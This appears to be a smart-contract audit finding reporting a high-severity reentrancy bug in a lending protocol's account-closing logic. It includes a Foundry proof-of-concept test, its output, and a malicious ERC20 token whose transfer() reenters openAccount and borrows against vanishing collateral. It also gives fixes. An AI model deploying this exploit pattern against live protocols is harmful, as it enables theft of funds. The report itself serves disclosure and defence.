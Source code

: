 devtooligan
# Account.sweepTokens vulnerable to reentrancy - HIGH

## Summary
The protocol is vulnerable to a re-entrancy attack when closing an account.

## Vulnerability Detail
When an account is being closed, the current logic:
1.  Checks that the account is debt free and hasn't been opened in this block.
2. Deactivates the account and remove it from the `ownerFor` registry.  
3. Add the account to the list of `inactiveAccountsFor` the user.  
4. Finally, `account.sweepTokens()` is called which iterates through all of the tokens held by the account and returns them to the user.

If a malicious token were to enter the system, calling `transfer()` during the loop in `sweepTokens` could trigger a re-entrancy attack.

An example of such attack would be to have the attacker (assume account owner is a smart contract) call `AccountManager.openAccount()`. Since the open account logic recycles any inactive accounts, the account which is in the middle of being closed would now be re-opened and the remaining tokens which had not yet been swept would be considered collateral by the protocol.  Next the attacker could call `AccountManager.borrow` to initiate a leveraged position on what will soon become zero assets.

## Code Snippet
<details>
  <summary>POC attack script
</summary>

```solidity
    function testSweepReentrancy() public {
        setUpReentrancyAttack();  // add liquidity and attacker deposits 10e18 erc20 and 2e18 shady token

        // current balances
        console.log("balances before closing account and executing reentrancy attack");
        console.log("riskEngine.getBalance (in ETH)", riskEngine.getBalance(account) / 1e18);
        console.log("riskEngine.getBorrows (in ETH)", riskEngine.getBorrows(account) / 1e18);


        // attacker
        cheats.prank(attacker);
        accountManager.closeAccount(account);

        console.log("balances before after attack");
        console.log("riskEngine.getBalance (in ETH)", riskEngine.getBalance(account) / 1e18);
        console.log("riskEngine.getBorrows (in ETH)", riskEngine.getBorrows(account) / 1e18);
    }

```

</details>

<details>
  <summary>POC attack output
</summary>

```bash
[PASS] testSweepReentrancy() (gas: 743023)
Logs:
  balances before closing account and executing reentrancy attack
  riskEngine.getBalance (in ETH) 12
  riskEngine.getBorrows (in ETH) 0

  closing account 0x3E57De8dd768cf75D702Ee7B834B396982c8b946

  ShadyERC20.transfer
  reentered - opened account 0x3E57De8dd768cf75D702Ee7B834B396982c8b946
  reentered - initiating borrow

  balances after attack
  riskEngine.getBalance (in ETH) 0
  riskEngine.getBorrows (in ETH) 40

Test result: ok. 1 passed; 0 failed; finished in 3.74ms
```
</details>

<details>
  <summary>ShadyERC20 token example
</summary>

```
contract ShadyERC20 is ERC20, Test {
    address public admin;
    IAccountManager public accountManager;
    IRegistry public registry;
    IAttacker public attacker;

    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals,
        IAccountManager accountManager_,
        IRegistry registry_,
        IAttacker attacker_
    ) ERC20(_name, _symbol, _decimals) {
        admin = msg.sender;
        accountManager = accountManager_;
        registry = registry_;
        attacker = attacker_;
    }

    function transfer(
        address to,
        uint256 amount
    ) public returns (bool) {
        console.log("ShadyERC20.transfer");

        attacker.openAccount(accountOwner);

        address[] memory accounts = registry.accountsOwnedBy(accountOwner);
        address account = accounts[accounts.length - 1];
        console.log("reentered - opened account", account);
        address[] memory assets = IAccount(account).getAssets();
        assert(assets.length > 0);

        // initiate borrow
        console.log("reentered - initiating borrow");
        vm.prank(accountOwner);
        attacker.executeBorrow(account, 40e18);

        return true;
    }

}

```

</details>

## Tool used

Foundry
Manual Review

## Recommendation
Due to the complexity of the protocol, it is difficult to determine all of the possible reentrancy attack vectors which may exist using with any number of combinations of function calls.  As such, it is recommended to use a [reentrancy guard](https://github.com/transmissions11/solmate/blob/main/src/utils/ReentrancyGuard.sol) on all state mutating, external functions in `AccountManager`.

Alternatively, if a less effective mitigation was desired, a reentrancy guard on the `AccountManager.openAccount()` would prevent a category of attacks described in the POC above.

If the desire is to simply mitigate the exact attack in the above POC, then the order of function calls within `closeAccount` could be changed so that the `inactiveAccountsFor` array was appended to AFTER the tokens were swept.  NOTE: This breaks the checks-effects-interactions pattern and should be loudly noted if this approach is taken.  However, in this case it is deemed not to be a risk since it would simply delay updating the pool of inactive accounts to be recycled from.  

<details>
  <summary>
`AccountManager.openAccount()`
</summary>

```diff
@@ -117,8 +121,8 @@
         if (!account.hasNoDebt()) revert Errors.OutstandingDebt();
         account.deactivate();
         registry.closeAccount(_account);
-        inactiveAccountsOf[msg.sender].push(_account);
         account.sweepTo(msg.sender);
+        inactiveAccountsOf[msg.sender].push(_account);
         emit AccountClosed(_account, msg.sender);
     }
```

</details>
